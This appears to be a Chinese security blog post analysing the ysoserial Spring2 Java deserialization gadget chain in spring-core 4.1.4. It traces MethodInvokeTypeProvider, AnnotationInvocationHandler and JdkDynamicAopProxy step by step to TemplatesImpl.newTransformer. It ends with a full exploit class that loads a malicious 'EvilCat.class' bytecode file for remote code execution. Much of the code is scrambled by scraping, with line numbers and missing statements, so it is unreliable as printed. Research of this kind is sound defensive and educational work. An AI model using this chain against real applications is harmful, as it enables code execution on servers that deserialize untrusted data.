依赖版本
spring-core : 4.1.4.RELEASE
Spring2 在 Spring1 的触发链上有所变换，替换了 spring-beans 的 ObjectFactoryDelegatingInvocationHandler，使用了 spring-aop 的 JdkDynamicAopProxy ，并完成了后续触发 TemplatesImpl 的流程。
0x01 MethodInvokeTypeProvider org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider.java
接下来我们从反序列触发点开始分析。
readObject()
1 2 3 4 5 private void readObject (ObjectInputStream inputStream) throws IOException, ClassNotFoundException {Method method = ReflectionUtils.findMethod(this .provider.getType().getClass(), this .methodName);this .result = ReflectionUtils.invokeMethod(method, this .provider.getType());

先在class找对应的方法，然后使用这个方法。调用的方法只能是无参方法。很容易就想到TemplatesImpl.newTransformer()。也就是办法把methodName改为newTransformer，provider.getType().getClass()要得到TemplatesI。
0x02 AnnotationInvocationHandler.java sun/reflect/annotation/AnnotationInvocationHandler.java
通过这个AnnotationInvocationHandler.java 动态代理结合interfaces，然后在反射构造函数传入map，map里面包含interfaces里面的方法名，和一个对象(map(“方法名”，Object) )，就可以在invocationHandler.invoke()调用时放回这个Object， 这就是Spring1这条链的精髓所在。


invoke
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 public Object invoke (Object proxy, Method method, Object[] args) {String member = method.getName();if (member.equals("equals" ) && paramTypes.length == 1 &&0 ] == Object.class)return equalsImpl(args[0 ]);if (paramTypes.length != 0 )throw new AssertionError ("Too many parameters for an annotation method" );switch (member) {case "toString" :return toStringImpl();case "hashCode" :return hashCodeImpl();case "annotationType" :return type;Object result = memberValues.get(member);if (result == null )throw new IncompleteAnnotationException (type, member);if (result instanceof ExceptionProxy)throw ((ExceptionProxy) result).generateException();if (result.getClass().isArray() && Array.getLength(result) != 0 )return result;
0x03 TypeProvider org.springframework.core.SerializableTypeWrapper$TypeProvider

TypeProvider这个接口刚好有这个方法，可以想到通过AnnotationInvocationHandler.invoke来放回TemplatesI。
那么就是通过动态代理代理TypeProvider接口，invocationHandler传入AnnotationInvocationHandler，然后通过反射调用构造函数传入map(“geType”，TemplatesI)，在调用接口任意方法就能返回TemplatesI。
对应的实现代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" );0 ];true );new HashMap <>();"getType" , templates);InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);"org.springframework.core.SerializableTypeWrapper$TypeProvider" );Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class []{typeProviderClass}, newInvocationHandler);"org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider" );0 ];true );"newTransformer" ), 0 );
调试
可以发现成功返回了TemplatesImpl。
但是为什么没有加载成功defindclass了。

这里报错需要一个Type，但是TemplatesImpl cannot be cast to java.lang.reflect.Type，我们需要返回type对象，然后这个继续通过动态代理type对象然后返回TemplatesImpl对象。 这样需要一个InvocationHandler接口的实现类，它的invoke需要满足返回需要去触发另一个动态代理去返回TemplatesImpl对象，然后它需要继承Serializable，最好是jdk原生类，或者Spring里面的类。前辈找到了JdkDynamicAopProxy可以满足这个要求。
0x04 JdkDynamicAopProxy，AdvisedSupport org/springframework/aop/framework/AdvisedSupport.java

org/springframework/aop/framework/AdvisedSupport.java#setTarget（）

也就是通过setTarget对EMPTY_TARGET_SOURCE赋值，从而对targetSource赋值，
org/springframework/aop/framework/JdkDynamicAopProxy.java#invoke()

获取 AdvisedSupport 里的 TargetSource，并调用 getTarget() 方法返回其中的对象

调用 AopUtils#invokeJoinpointUsingReflection() 方法反射调用对象的 method 方法并返回。
方法里就是简单的反射调用。

在看JdkDynamicAopProxy构造函数。

一切都很巧妙。
总结起来就是先初始化AdvisedSupport，然后把template对象setTarget进去，然后JdkDynamicAopProxy构造函数赋值advised为AdvisedSupport。这样动态代理JdkDynamicAopProxy时，就能触发targetSource.getTarget()，得到template对象。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 Class<?> Annotation = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" );0 ];true );AdvisedSupport advisedSupport = new AdvisedSupport ();"org.springframework.aop.framework.JdkDynamicAopProxy" );0 ];true );InvocationHandler AopInvocationHandler = (InvocationHandler)AopConstructor.newInstance(advisedSupport);Type Aopproxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class []{Type.class,new HashMap <>();"getType" ,Aopproxy);InvocationHandler AnnotationInvocationHandler = (InvocationHandler) annotationDeclaredConstructor.newInstance(Target.class, hashMap);"org.springframework.core.SerializableTypeWrapper$TypeProvider" );Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class []{typeProviderClass}, AnnotationInvocationHandler);"org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider" );0 ];true );Object objects = MethodIConstructor.newInstance(typeProviderProxy,Templates.class.getMethod("newTransformer" ),0 );
运行没有问题。
由于需要反序列化触发。
所以MethodInvokeTypeProvider初始化时Method随便传一个，然后通过反射修改回newTransfrom。
1 2 Object objects = MethodIConstructor.newInstance(typeProviderProxy,Object.class.getMethod("toString" ),0 );"methodName" ,"newTransformer" );
0x05 完整利用链 1 2 3 4 5 6 7 8 SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
完整代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 package com.tmp.cc;import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import org.springframework.aop.framework.AdvisedSupport;import org.springframework.aop.framework.AopProxy;import javax.xml.transform.Templates;import java.io.ByteArrayInputStream;import java.io.ByteArrayOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.lang.annotation.Target;import java.lang.reflect.*;import java.nio.file.Files;import java.nio.file.Paths;import java.util.HashMap;public class spring2 {public static void main (String[] args) throws Exception {byte [] classBytes = Files.readAllBytes(Paths.get("EvilCat.class" ));byte [][] targetByteCodes = new byte [][]{classBytes};TemplatesImpl templates = TemplatesImpl.class.newInstance();"_bytecodes" ,targetByteCodes);"_name" ,"123" );"_class" ,null );"_tfactory" ,new TransformerFactoryImpl ());"sun.reflect.annotation.AnnotationInvocationHandler" );0 ];true );AdvisedSupport advisedSupport = new AdvisedSupport ();"org.springframework.aop.framework.JdkDynamicAopProxy" );0 ];true );InvocationHandler AopInvocationHandler = (InvocationHandler)AopConstructor.newInstance(advisedSupport);Type Aopproxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class []{Type.class,new HashMap <>();"getType" ,Aopproxy);InvocationHandler AnnotationInvocationHandler = (InvocationHandler) annotationDeclaredConstructor.newInstance(Target.class, hashMap);"org.springframework.core.SerializableTypeWrapper$TypeProvider" );Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class []{typeProviderClass}, AnnotationInvocationHandler);"org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider" );0 ];true );Object objects = MethodIConstructor.newInstance(typeProviderProxy,Object.class.getMethod("toString" ),0 );"methodName" ,"newTransformer" );try {ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream ();ObjectOutputStream outputStream = new ObjectOutputStream (byteArrayOutputStream);ObjectInputStream inputStream = new ObjectInputStream (new ByteArrayInputStream (byteArrayOutputStream.toByteArray()));catch (Exception e){public static void setFieldValue (final Object obj, final String fieldName, final Object value) throws Exception {final Field field = getField(obj.getClass(), fieldName);public static Field getField (final Class<?> clazz, final String fieldName) {Field field = null ;try {true );catch (NoSuchFieldException ex) {if (clazz.getSuperclass() != null )return field;
0x06 链接 https://su18.org/post/ysoserial-su18-3/#spring2